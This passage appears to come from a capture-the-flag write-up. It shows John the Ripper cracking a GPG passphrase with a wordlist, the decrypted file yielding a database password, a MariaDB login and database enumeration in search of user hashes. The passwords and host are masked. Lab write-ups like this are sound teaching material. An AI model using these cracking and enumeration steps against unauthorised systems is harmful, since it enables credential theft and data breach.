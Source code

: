 ```bash
:~/M4tr1xExitDenied# john --wordlist=wordlist.txt A
Warning: detected hash type "gpg", but the string is also recognized as "gpg-opencl"
Use the "--format=gpg-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
------           (?)
1g 0:00:00:00 DONE (2025-10-12 xx:xx) 6.250g/s 12.50p/s 12.50c/s 12.50C/s fvgoxq..fvgoqx
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

<br>
<p align="center">Extract the database password ------------ using <code>gpg</code> against the file <code>p.txt.gpg</code>, copied previously.</p>

```bash
:~/M4tr1xExitDenied# gpg -d p.txt.gpg
gpg: AES256 encrypted data
gpg: encrypted with 1 passphrase
------------ //SQL Password
```

<p align="center">Access the database using <code>mysql</code>.</p>

```bash
:~/M4tr1xExitDenied# mysql -h xx.xxx.xx.xx -u mod -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 225
Server version: 10.3.39-MariaDB-0ubuntu0.20.04.2 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

<br>
<p align="center">Query the database and identify user´s hashes.</p>

```bash
MariaDB [(none)]> show DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| modManagerv2       |
| mybb               |
| mysql              |
| performance_schema |
+--------------------+
5 rows in set (0.003 sec)

MariaDB [(none)]> use modManagerv2;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [modManagerv2]> show TABLES;
```